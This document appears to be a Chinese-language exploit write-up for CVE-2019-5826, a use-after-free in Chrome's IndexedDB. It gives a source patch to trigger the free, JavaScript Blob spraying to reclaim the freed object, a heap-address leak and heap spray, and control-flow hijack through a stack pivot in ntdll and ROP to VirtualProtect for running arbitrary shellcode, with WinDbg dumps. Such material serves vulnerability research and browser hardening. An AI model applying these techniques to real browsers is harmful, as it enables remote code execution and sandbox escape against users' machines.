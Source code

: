 # cve-2019-5826 利用

漏洞成因，kp已经分析过了，这里略去不说，从uaf构建后开始利用

环境:windows

## 利用流程
### 构造uaf

构造uaf需要renderer rce，因此选择直接patch chrome源码

```diff
void WebIDBFactoryImpl::Open( 
       std::make_unique<IndexedDBDatabaseCallbacksImpl>( 
           base::WrapUnique(database_callbacks)); 
   DCHECK(!name.IsNull()); 
   factory_->Open(GetCallbacksProxy(std::move(callbacks_impl)), 
                  GetDatabaseCallbacksProxy(std::move(database_callbacks_impl)), 
                  name, version, transaction_id); 
+  if (version == 3) { 
+    mojom::blink::IDBCallbacksAssociatedPtrInfo ptr_info; 
+    auto request = mojo::MakeRequest(&ptr_info); 
+    factory_->DeleteDatabase(std::move(ptr_info), name, true); 
+    factory_->AbortTransactionsForDatabase( base::OnceCallback<void(blink::mojom::IDBStatus)>()); 
+  } 
 } 
```

### 将free掉的DB申请回来

首先确定 indexedDBDatabase 结构体的大小，通过在content::indexedDBDatabase::DeleteDatabase 添加

```
LOG(ERROR) << sizeof(indexedDBDatabase);
```

可以得到结构体大小为 0x150

得知结构体大小后，在js中使用 new blob 即可申请到uaf的内存

```js
let ab = new ArrayBuffer(0x150); //indexedDBDatabase的size
var uaf_ta = new BigUint64Array(ab);
uaf_ta[0] = 0x12345679n;  //just a sig
for(let j=1;j<35;j++){
    uaf_ta[j]=0x101n;   //将active_request_置非0
}
uaf_ta[36] = 0x101n;
for(let i = 0; i < 0x5000; i++){
var a=new Blob([ab]);
    blob_list.push(a);  //存放blob
}

```

其中 uaf_ta[j]=0x101n; 是将fake_indexedDBDatabase中的active_request_置为非0，从而绕过如下判断
```c++
void IndexedDBDatabase::AppendRequest(
    std::unique_ptr<ConnectionRequest> request) {
  pending_requests_.push(std::move(request));

  if (!active_request_)
  //该函数会触发遍历fake_indexedDBDatabase结构体中的一个std::map，而此时我们还没有堆地址，因此不能进入此函数
    ProcessRequestQueue(); 
}
```

此时，再调用一次 window.indexedDB.deleteDatabase 即可发现rcx寄存器，即函数调用第一个参数所指向的内容已经变成了我们控制的sig 0x12345679

```
0:006> r
rax=00004d3c96917aaf rbx=000001f3ad825f60 rcx=000001f3ad8e2180
rdx=00000055007fee70 rsi=000001f3ad8e2180 rdi=00000055007fef30
rip=00007ffc122fa896 rsp=00000055007fed68 rbp=00000055007fef90
 r8=0000000000000000  r9=0000000000000003 r10=0000000000000003
r11=0000000000000003 r12=00000055007ff038 r13=000001f3b22afde0
r14=00000055007fee78 r15=0000000000000000
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
chrome!content::IndexedDBDatabase::DeleteDatabase:
00007ffc`122fa896 56              push    rsi

0:006> dq 000001f3ad8e2180
000001f3`ad8e2180  00000000`12345679 00000000`00000101
000001f3`ad8e2190  00000000`00000101 00000000`00000101
000001f3`ad8e21a0  00000000`00000101 00000000`00000101
000001f3`ad8e21b0  00000000`00000101 00000000`00000101
000001f3`ad8e21c0  00000000`00000101 00000000`00000101
000001f3`ad8e21d0  00000000`00000101 00000000`00000101
000001f3`ad8e21e0  00000000`00000101 00000000`00000101
000001f3`ad8e21f0  00000000`00000101 00000000`00000101
...
```

### 泄露堆地址

第二次执行 window.indexedDB.deleteDatabase 后，我们可以通过调试发现fake_indexedDBDatabase结构体中多出了一个堆指针

```
000001f3`ad8e2180  00000000`12345679 00000000`00000102
000001f3`ad8e2190  00000000`00000101 00000000`00000101
000001f3`ad8e21a0  00000000`00000101 00000000`00000101
000001f3`ad8e21b0  00000000`00000101 00000000`00000101
000001f3`ad8e21c0  00000000`00000101 00000000`00000101
000001f3`ad8e21d0  00000000`00000101 00000000`00000101
000001f3`ad8e21e0  00000000`00000101 00000000`00000101
000001f3`ad8e21f0  00000000`00000101 00000000`00000101
000001f3`ad8e2200  00000000`00000101 00000000`00000101
000001f3`ad8e2210  00000000`00000101 00000000`00000101
000001f3`ad8e2220  00000000`00000101 00000000`00000101
000001f3`ad8e2230  00000000`00000101 00000000`00000101
000001f3`ad8e2240  00000000`00000101 00000000`00000101
000001f3`ad8e2250  00000000`00000101 00000000`00000101
000001f3`ad8e2260  00000000`00000101 00000000`00000101
000001f3`ad8e2270  00000000`00000101 00000000`00000101
000001f3`ad8e2280  00000000`00000101 00000000`00000101
000001f3`ad8e2290  00000000`00000101 00000000`00000000
000001f3`ad8e22a0  00000000`00000101 000001f3`c2dcee00 //多出的heap addr
```

因此我们只需要读取blob_list中刚刚申请的所有块中该偏移处的值，非0x101即为堆地址


### 重新申请uaf的块

blob的值无法在申请后更改，因此我们需要将原来申请到的blob释放掉

我想到的方法是将页面跳转到第二个exp中，此时原页面js在浏览器进程中的内存将被释放。

切换到新exp页面后即可再次申请0x150的块进行攻击

泄露的堆地址通过 '#' 标签在url中传给下一个页面

### 堆喷

泄露出的堆地址并不准确，无法直接使用，因此我们对其进行如下处理：

```
var tmp=(heap_addr+0x20000000n)&(~0xfffn); 
```

将尾部置零并加上一个很大的数值。

这时我们再多次申请较大 size 且size大小尾部也为0的 blob 如 0x1000*0x800 ， 这样申请到的内存块有很大概率包含着刚刚通过运算得到的tmp地址。然后我们在申请到的blob中每隔0x1000就放置提前构造好的内容。

这样，只要申请的大blob块中包含了tmp所指的地址，即可保证能覆写准确。

### 控制流劫持

在 dodelete 函数中会调用 fake_indexedDBDatabase 中+8处的指针

```
0:039> u 00007ffc`12300910-1
chrome!content::IndexedDBDatabase::DeleteRequest::DoDelete+0x43:
00007ffc`1230090f ff5008          call    qword ptr [rax+8]
00007ffc`12300912 488b3f          mov     rdi,qword ptr [rdi]
00007ffc`12300915 4885ff          test    rdi,rdi
00007ffc`12300918 0f84bb000000    je      chrome!content::IndexedDBDatabase::DeleteRequest::DoDelete+0x10d (00007ffc`123009d9)
00007ffc`1230091e 4c8d05c3436a02  lea     r8,[chrome!`string' (00007ffc`149a4ce8)]
00007ffc`12300925 488d9c2480000000 lea     rbx,[rsp+80h]
00007ffc`1230092d 4889d9          mov     rcx,rbx
00007ffc`12300930 66ba1c00        mov     dx,1Ch
0:039> r
rax=000002c8cbeb4000 rbx=000002c8a6d5f350 rcx=000002c8cbeb4000
rdx=000000ef5fffede0 rsi=000002c8a6db2ff0 rdi=000000ef5fffede0
rip=00007ffca1552ae8 rsp=000000ef5fffedb8 rbp=0000000000000000
 r8=000002c8a6d5f248  r9=000000ef5fffee60 r10=0000000000000080
r11=8001f0d2f8900ee4 r12=000000ef5ffff258 r13=000002c8ac0eae80
r14=000000ef5ffff098 r15=0000000000000000
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
ntdll!_longjmp_internal+0x98:
00007ffc`a1552ae8 488b5150        mov     rdx,qword ptr [rcx+50h] ds:000002c8`cbeb4050=00007ffca15500de
0:039> d 000002c8cbeb4000
000002c8`cbeb4000  000002c8`cbeb4000 00007ffc`a1552ae8
000002c8`cbeb4010  000002c8`cbeb4100 00000000`00000000
000002c8`cbeb4020  00000000`00000000 00000000`00000000
000002c8`cbeb4030  00000000`00000000 00000000`00000000
000002c8`cbeb4040  000002c8`cbeb4000 00000000`00000000
000002c8`cbeb4050  00007ffc`a15500de 00000000`00000000
000002c8`cbeb4060  00000000`00000000 00000000`00000000
000002c8`cbeb4070  00000000`00000000 00000000`00000000

```

因此，只需控制fake_indexedDBDatabase+8处的值即可劫持控制流

### 执行任意shellcode

windows下各个进程加载的模块地址是相同的，因此在renderer rce的情况下我们可以泄露出ntdll等一系列dll的基地址，很容易即可实现栈劫持后rop

使用ntdll中此gadget，此时rcx值仍然为 fake_indexedDBDatabase 可以劫持rsp的值，并持续控制执行流
```
ntdll!_longjmp_internal+0x98:
00007ffc`a1552ae8 488b5150        mov     rdx,qword ptr [rcx+50h]
00007ffc`a1552aec 488b6918        mov     rbp,qword ptr [rcx+18h]
00007ffc`a1552af0 488b6110        mov     rsp,qword ptr [rcx+10h]
00007ffc`a1552af4 ffe2            jmp     rdx
```

然后使用rop调用VirtualProtect将fake_indexedDBDatabase处的内存改为可读可写可执行，再跳转到fake_indexedDBDatabase+0x300(任意稍远处)，即可执行任意shellcode

## 调试

在windows下使用windbg进行调试

仅使用了以下命令
```
u:反汇编内存
x:查找函数名对应的地址
r:查看当前寄存器状态
d:查看当前内存
```


